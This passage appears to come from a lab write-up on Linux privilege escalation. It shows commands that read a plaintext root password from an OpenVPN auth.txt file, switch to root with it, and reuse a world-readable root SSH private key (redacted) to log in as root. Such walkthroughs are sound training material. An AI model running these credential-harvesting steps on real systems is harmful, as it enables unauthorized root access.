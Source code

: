 ```bash
verb 1
reneg-sec 0
```

- Look into the `auth.txt`
- Gain root access using that password

```bash
user@debian:~$ cat /etc/openvpn/auth.txt 
root
password123

user@debian:~$ su
Password: 
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# whoami
root
```

---

##  Passwords & Keys - SSH Keys

- Look for ssh private keys:


```bash
user@debian:~$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
user@debian:~$ cat /.ssh/root_key
-----BEGIN RSA PRIVATE KEY-----

REDACTED
-----END RSA PRIVATE KEY-----
```

- Copy the code to your local machine.
- Change the file Permissions to 600.
- Login using ssh to gain root shell:

```bash
$ nano root_key
$ chmod 600 root_key 
$ ssh -i root_key root@10.10.95.239
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---